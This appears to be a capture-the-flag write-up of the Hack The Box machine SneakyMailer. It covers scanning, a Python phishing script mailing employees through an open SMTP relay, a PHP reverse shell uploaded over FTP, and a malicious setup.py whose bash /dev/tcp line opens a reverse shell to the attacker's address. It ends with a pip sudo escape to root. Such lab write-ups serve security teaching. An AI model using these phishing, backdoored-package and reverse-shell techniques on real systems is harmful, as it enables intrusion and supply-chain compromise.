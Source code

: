 ```yaml
---
date: 2020-07-16 06:53:04
layout: post
title: "SneakyMailer"
subtitle:
description:
image: /writeup/asset/img/Sneakymailer/sneakymailer.png
optimized_image:
category:
tags:
author:
paginate: false
---
```

Started with nmap scan
```bash
nmap -T4 -p- -A 10.10.10.197
```
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-15 04:51 IST
Nmap scan report for sneakycorp.htb (10.10.10.197)
Host is up (0.31s latency).

PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 57:c9:00:35:36:56:e6:6f:f6:de:86:40:b2:ee:3e:fd (RSA)
|   256 d8:21:23:28:1d:b8:30:46:e2:67:2d:59:65:f0:0a:05 (ECDSA)
|_  256 5e:4f:23:4e:d4:90:8e:e9:5e:89:74:b3:19:0c:fc:1a (ED25519)
25/tcp   open  smtp     Postfix smtpd
|_smtp-commands: debian, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
80/tcp   open  http     nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Employee - Dashboard
143/tcp  open  imap     Courier Imapd (released 2018)
|_imap-capabilities: ACL2=UNION CAPABILITY ENABLE SORT THREAD=ORDEREDSUBJECT NAMESPACE UIDPLUS completed ACL CHILDREN IDLE IMAP4rev1 UTF8=ACCEPTA0001 THREAD=REFERENCES STARTTLS OK QUOTA
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
|_ssl-date: TLS randomness does not represent time
993/tcp  open  ssl/imap Courier Imapd (released 2018)
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http     nginx 1.14.2
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to nginx!
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host:  debian; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT       ADDRESS
1   356.21 ms 10.10.14.1
2   356.18 ms sneakycorp.htb (10.10.10.197)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.70 seconds
```
21,22,25,80,143,993,8080 ports were open.FTP port didn't allowed anonymous access.
The website at port 80 didn't work directly with ip and redirected to sneakycorp.htb.So added sneakycorp.htb in /etc/hosts file.
![placeholder](/writeup/assets/img/sneakymailer/hosts.png "hosts")
Now the website responded correctly.
![placeholder](/writeup/assets/img/sneakymailer/web.png "web")
Found link to register functionality in the source of webpage.
![placeholder](/writeup/assets/img/sneakymailer/register.png "register")
The registration funtion doesn't seem to work.
Tried to find any hidden directories or subdomains with ffuf
```bash
ffuf -w wordlist -u http://sneakycorp.htb/FUZZ
```
Didn't found any thing useful with directory busting but I did found a subdomain.
```bash
ffuf -w subdomains -u http://sneakycorp.htb -H "Host: FUZZ.sneakycorp.htb -fw 6"
```
![placeholder](/writeup/assets/img/sneakymailer/sub.png "subdomains")

Added the entry dev.sneakycorp.htb in the hosts file.
The subdomain didn't came to be much useful except it gave the link to register functionality directly in the dashboard of the website.
On the website's team.php page, found many emails.
Moved on to the port 25(smtp). I found that I can send mail using this port without any authentication.


Extracted every email from the website with python.
```python
from lxml import etree
import requests

data=requests.get("http://sneakycorp.htb/team.php")
parser = etree.HTMLParser()
tree = etree.fromstring(data.text, parser)
results = tree.xpath('//tr/td[position()=4]')
output=open("emails","w")
for r in results:
    output.write(r.text+"\n")
```
Since the box name and image suggested of phishing. So tried to send mail to every email.
```python
import smtplib

data=open("/root/tmp/emails","r")
s = smtplib.SMTP(host='10.10.10.197', port=25)
lines=data.readlines()
i=0
for line in lines:
    print(i)
    to=line.split()       
    message = "http://10.10.14.35/"+str(to)
    s.sendmail("sulcud@sneakymailer.htb","paulbyrd@sneakymailer.htb","Subject:this mail \n\n"+message)
    i+=1    
s.quit() 
```
Here used a link that pointed to my hosted server.So that I can know whether someone clicks a link from the machine(I mean any script deployed on machine to do this).
Opened my port 80 to look for incoming connections using nc.
```bash
nc -lnvp 80
```
![placeholder](/writeup/assets/img/sneakymailer/back.png "back")
Got a request from a email which gave credentials in the format of a request being made to register.php.

Used the credentials to log on to the imap service on port 143 using telnet.
<a href="http://blog.andrewc.com/2013/01/connect-to-imap-server-with-telnet/">Used this</a> blog to get the commands I needed for enumerating the service.
```bash
a1 login paulbyrd password_here
a2 LIST "" "*"
a3 EXAMINE "INBOX.Sent Items"
a4 FETCH 1 BODY[]
a4 FETCH 2 BODY[]
```
INBOX.Sent Items contained two mails first one gave creds for developer user and second one gave hint on what to do next.
![placeholder](/writeup/assets/img/sneakymailer/hint.png "pypi")
Used the creds to log in to the ftp service.

It contained a directory named dev.So it might be the directory from which the dev subdomain works. Uploaded a php reverse shell to the directory and accessed it to get a shell onto the machine.
Changed user from the www-data to developer using su command andd previous creds.


There was also a subdomain pypi which I found from /var/www folder.Enumerating more I found from /etc/nginx/sites-enabled that pypi subdomain is listening on port 8080.

pypi subdomain was hosting a pypi server. The .htpasswd file inside /var/www/pypi.sneakycorp.htb gave a hash which on cracking with john gave the password which was required on the pypi.sneakycorp.htb.
Since the hint pointed that low user will check every module in pypi's packages. So uploaded a module with modification in the setup.py file of module to get a reverse shell.


<a href="https://pypi.org/project/pypiserver/">From</a> the documentation of pypi server. Got the steps required to upload the file.
I used the following pypirc file
```text
[distutils]
index-servers =
  pypi
  local

[pypi]
username:pypi
password:soufianeelhaoui

[local]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```

Since I had downlaoded mitm6 recently from pip,I used it. Just edited the setup.py to get a shell.
![placeholder](/writeup/assets/img/sneakymailer/module.png "setup")
and then uploaded the module using
```bash
python setup.py sdist upload -r local
```
Since the setup.py would get executed while uploading.So I got a shell back from my machine only.Quickly I closed the connection and opened again.As the file got uploaded, I got a reverse shell from the machine as low user.

The payload can also be improved using a if condition in the setup.py so that connection from the local machine is not made.
```python
#adding a if in the setup.py
if os.getuid() == 1000:
   os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.30/9999 0>&1'")
```

Got the user.txt.

Ran ***sudo -l*** and found that pip3 command can be run as root.
Got the command required for privilege escalation using pip3 from <a href="https://gtfobins.github.io/gtfobins/pip/">gtfobins</a> 
```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```
Got the root shell and root.txt.    
